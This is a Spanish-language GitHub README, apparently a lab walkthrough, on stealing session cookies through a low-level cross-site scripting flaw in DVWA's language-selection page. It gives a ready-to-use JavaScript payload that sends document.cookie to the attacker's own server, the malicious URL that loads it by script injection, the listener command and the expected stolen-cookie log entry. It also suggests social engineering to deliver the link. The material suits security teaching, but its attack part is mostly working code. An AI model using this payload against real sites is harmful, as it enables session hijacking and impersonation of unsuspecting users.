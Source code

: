 # Explotación XSS Reflejado de Nivel Bajo para Robo de Cookies

Este repositorio contiene los archivos y la explicación para realizar una explotación de Cross-Site Scripting (XSS) reflejado de nivel bajo con el objetivo de robar cookies de sesión. Este ejemplo se enfoca en la página de selección de idioma de la aplicación web vulnerable DVWA (Damn Vulnerable Web Application).

**Advertencia:** Esta información se proporciona únicamente con fines educativos y de prueba de penetración en entornos controlados. El uso de estas técnicas sin permiso explícito es ilegal y puede tener consecuencias graves.

## Herramientas Necesarias

* **Navegador web:** Para acceder a la página vulnerable y verificar la explotación.
* **Kali Linux (o cualquier sistema con Python instalado):** Necesario para levantar un servidor web temporal y analizar los logs.
* **Acceso a la página web vulnerable:** En este caso, la página de selección de idioma de DVWA.

## Pasos para la Explotación

1.  **Levantar un Servidor Web Temporal en Kali:**
    Abre una terminal en tu máquina Kali Linux y ejecuta el siguiente comando para iniciar un servidor web simple en el puerto 9999:
    ```bash
    python -m SimpleHTTPServer 9999
    ```
    Mantén esta terminal abierta para registrar las peticiones entrantes.

2.  **Crear el Payload en un Archivo JavaScript (`a.js`):**
    Crea un nuevo archivo de texto llamado `a.js` en el directorio desde donde ejecutaste el comando `SimpleHTTPServer`. Pega el siguiente código JavaScript dentro del archivo, reemplazando `[tu_IP_de_Kali]` con la dirección IP de tu máquina Kali Linux (puedes encontrarla con `ifconfig` o `ip addr`):
    ```javascript
    function getimg() {
      var img = document.createElement('img');
      img.src = 'http://[tu_IP_de_Kali]:9999/' + document.cookie;
      document.body.appendChild(img);
    }

    getimg();
    ```
    Guarda el archivo `a.js`.

3.  **Construir la URL Maliciosa:**
    Identifica la URL vulnerable. Para el nivel bajo de XSS reflejado en la página de selección de idioma de DVWA, la URL base es similar a:
    ```
    http://dvwa/dvwa/vulnerabilities/xss_d/
    ```
    Modifica el parámetro `default` en la URL para inyectar la etiqueta `<script>` que carga tu archivo `a.js` desde tu servidor web temporal. La URL final debería tener la siguiente estructura (asegúrate de reemplazar `[tu_IP_de_Kali]` con tu IP):
    ```
    http://dvwa/dvwa/vulnerabilities/xss_d/?default=<script src="http://[tu_IP_de_Kali]:9999/a.js"></script>
    ```

4.  **Enviar la URL Maliciosa a la Víctima (o Acceder a Ella):**
    Para probar la explotación, puedes simplemente pegar la URL modificada en la barra de direcciones de tu propio navegador web (si estás probando en un entorno local con DVWA configurado). En un escenario real, un atacante podría emplear diversas técnicas de ingeniería social para que la víctima acceda a este enlace.

5.  **Verificar los Logs del Servidor Web Temporal:**
    Regresa a la terminal donde está ejecutándose tu servidor web en Kali. Si la explotación es exitosa, verás una o más peticiones HTTP en los logs del servidor. Busca una petición `GET` que contenga la cookie de la víctima en la URL solicitada. Debería verse algo parecido a:
    ```
    [timestamp] "GET /[COOKIE_DE_LA_VICTIMA] HTTP/1.1" 404 -
    ```
    La parte `[COOKIE_DE_LA_VICTIMA]` representa la cookie de sesión del usuario que accedió a la URL maliciosa. ¡La cookie ha sido robada!

## Explicación de lo que Sucede

1.  Cuando la víctima hace clic en el enlace malicioso o accede a la URL, el navegador web interpreta la etiqueta `<script>` inyectada en el parámetro `default`.
2.  Esto provoca que el navegador realice una petición HTTP al servidor web temporal que configuraste en Kali (en el puerto 9999) para obtener el archivo `a.js`.
3.  Tu servidor web en Kali responde sirviendo el contenido del archivo `a.js`.
4.  El código JavaScript dentro de `a.js` se ejecuta en el contexto del navegador de la víctima.
5.  La función `getimg()` crea dinámicamente un nuevo elemento `<img>`.
6.  La propiedad `src` de esta imagen se establece a una URL en tu servidor web de Kali, anexando el valor de `document.cookie` (que contiene las cookies del sitio web actual de la víctima) como parte de la ruta de la "imagen".
7.  El navegador de la víctima intenta cargar esta "imagen" desde tu servidor web en Kali.
8.  La petición HTTP enviada por el navegador de la víctima a tu servidor web incluye la cookie robada en la URL solicitada, la cual queda registrada en los logs de tu servidor web temporal.

Este ejemplo ilustra una vulnerabilidad XSS reflejada básica y cómo un atacante puede explotarla para robar información sensible como las cookies de sesión. En escenarios reales, las consecuencias de un robo de cookies pueden ser graves, permitiendo al atacante hacerse pasar por la víctima.